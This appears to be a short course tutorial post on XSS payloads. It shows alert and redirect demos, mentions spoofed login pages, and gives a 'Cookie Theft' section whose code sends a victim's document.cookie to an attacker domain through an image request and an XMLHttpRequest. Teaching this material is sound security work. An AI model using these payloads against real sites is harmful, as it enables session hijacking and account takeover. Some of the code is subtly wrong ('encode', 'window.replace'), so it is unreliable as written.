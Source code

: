 ```yaml
---
layout: post
title: JavaScript Payloads
subtitle: Week 18
tags: [XSS, exploit]
css: /css/code.css
---
```


You've discovered a XSS vulnerability on a page. What next?

*Submit a confidential report.*

Below are a few simple snippets of JavaScript snippets that can be used for evil.

Of course, you need to be familiar with Javascript first...

- <https://www.w3schools.com/js/tryit.asp?filename=tryjs_intro_inner_html>
- <https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript>

<https://jsfiddle.net/> is a convenient way to execute JavaScript in your web browser.

*****

# Client Payloads

{% highlight javascript linenos %}

// this is a comment. 

/*
 * BTW, there's no difference between useing single quotes (')
 * or double quote (") for strings in Javascript.
 *
 * Semicolons are optional.
 */
// usage: setTimeout(function, milliseconds);
setTimeout(function() {
  alert("Have a wonderful day! ^_^");
}, 5000);

// usage: setInterval(function, milliseconds);
setInterval(function() {
  alert("Don't forget to be awesome.");
}, 5000);

document.getElementsByTagName('h1')[0].innerHTML = 'Just wanted to say hello :)';

window.replace('http://www.staggeringbeauty.com/');

{% endhighlight %}

Some exploits require more setup. For example, you can inject `window.replace` to have users be sent to a spoofed login page. <https://tools.kali.org/information-gathering/set>

# Cookie Theft

Force unknowing users to connect with your unfriendly server. For the code below, we will assume your server is accessible by the domain "thisisrude.com".


{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://thisisrude.com/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user.

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://thisisrude.com/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

# TODO: CSRF and cookie stealing server
